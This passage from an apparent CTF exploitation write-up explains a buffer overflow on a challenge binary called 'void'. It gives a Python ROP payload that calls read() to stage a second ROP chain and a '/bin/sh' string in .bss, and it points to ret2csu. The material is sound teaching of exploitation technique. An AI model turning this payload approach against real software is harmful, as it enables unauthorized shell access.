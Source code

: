 Next, we will use the overflow to call _read()_ again. We will use an address on the _.bss_, since it has read and write permissions, in this case __0x404100__ to store the first _ROP chain_ 

```python
#1
payload = b"A"*0x48
#calling read() to write the 1st ROP chain ion the.bss section
payload += p64(poprdi)
payload += p64(0)
payload += p64(poprsi)
payload += p64(rw_section)
payload += p64(0xcafebabe)
payload += p64(elf.sym.read) # use the read function as write-what-where
payload += p64(elf.sym.vuln) # go back to the vul function to overflow again
```
Once the above payload is sent and the overflow is triggered, the  _read()_ function is executed, and we can write our payload, which will contain the _"/bin/sh"_ string and the ROP chain.

To understand the above, we need to be familiar with __ret2csu__. You can read more about it [here](https://gist.github.com/kaftejiman/a853ccb659fc3633aa1e61a9e26266e9), and practice it [here](https://ropemporium.com/challenge/ret2csu.html), but I will try to explain what's is the plan at a high level. We are using the following gadgets represented in the picture below showing the putput of the command __objdump -d void -M Intel__

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/2023-03-24-13-13-39.png)
